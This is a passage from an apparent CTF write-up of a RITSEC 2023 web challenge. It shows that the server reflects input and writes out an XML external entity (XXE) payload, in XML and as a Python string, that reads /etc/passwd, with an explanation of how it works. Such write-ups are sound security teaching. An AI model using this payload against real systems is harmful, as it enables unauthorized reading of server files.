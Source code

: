 ![](https://github.com/siunam321/CTF-Writeups/blob/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401143529.png)

Cool! It's ***reflected to the response***!!

**With that said, we can craft a payload to display the file content of `/etc/passwd`:**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<input>
    <xmen>&xxe;</xmen>
</input>
```

**What this payload does is we defined:**

-   The root element of the document is `root` (`!DOCTYPE root`)
-   Then, inside that root element, **we defined an external entity (variable) called `xxe`, which is using keyword `SYSTEM` to fetch file `/etc/passwd`**
-   Finally, we want to **use the `xxe` entity in `<xmen>` tag**, so we can see the output of `/etc/passwd`. To do so, we need to use `&entity_name;`

```py
    payload = b'''<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><input><xmen>&xxe;</xmen></input>'''
```
